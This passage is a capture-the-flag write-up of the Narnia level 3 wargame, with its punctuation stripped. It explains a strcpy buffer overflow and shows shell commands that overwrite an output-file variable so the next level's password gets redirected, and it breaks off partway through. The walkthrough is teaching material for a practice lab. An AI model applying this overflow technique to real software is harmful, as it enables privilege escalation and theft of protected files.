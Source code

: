 If the destination string of a strcpy   is not large enough  then anything might happen  Overflowing fixed length string buffers is a favorite cracker technique for taking complete control of the machine  Any time a program reads or copies data into a buffer  the program first needs to check that there s enough space  This may be unnecessary if you can show that overflow is impossible  but be careful  programs can get changed over time  in ways that may make the impossible possible 

Following the strcpy function are two if statements  one for checking if a file exists  and another for checking if we have valid permissions for opening the file  If the file exists and we have permissions for opening the file  then the read and write functions are executed 

Before figuring out how to exploit the binary  we should first understand how it behaves by doing what the program expects 

   highlight bash   
narnia3 narnia     narnia narnia3  etc narnia pass narnia4  
copied contents of  etc narnia pass narnia4 to a safer place      dev null 
   endhighlight   

The program can read the narnia4 password file and copy it to  dev null  However  due to this being the place in linux used for discarding data  we cannot recover the password 

    Exploiting strcpy

Going back to Ghidra  we can see that the  dev null device is set to the variable local 1c 

     reports Narnia image10 png 

If there is a buffer overflow vulnerability we can possibly overwrite this local variable  When inputting many strings followed by the word  test   we can see that the program returns an error for opening the program  however not all of the A s that we sent are outputted 

   highlight bash   
narnia3 narnia     narnia narnia3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest  
error opening AAAAAAAAAAAAtest
   endhighlight   

We can try to create a file called AAAAAAAAAAAAtest and see how the binary responds 

   highlight bash   
narnia3 narnia  tmp  touch AAAAAAAAAAAAtest  
narnia3 narnia  tmp  chmod 777 AAAAAAAAAAAAtest  
narnia3 narnia  tmp   narnia narnia3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest                                                                                      
error opening AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest
   endhighlight   

Strangely  the binary now spits out all the A s that we inputted  Recall that we found within Ghidra that 32 bytes are being allocated to two unknown buffers  It is possible that one of the buffers is meant for the name of the input file  while the other buffer is meant for the output  This means that upon creating a long named directory and inputting the full path of a file located within this directory might successfully overwrite the variable allocated for the  dev null device  This methodology was carried out as follows 

   highlight bash   
narnia3 narnia  tmp  mkdir   python  c  print  S  26    
narnia3 narnia  tmp  cd   python  c  print  S  26    
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSS  touch test  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSS  chmod 777 test
   endhighlight   
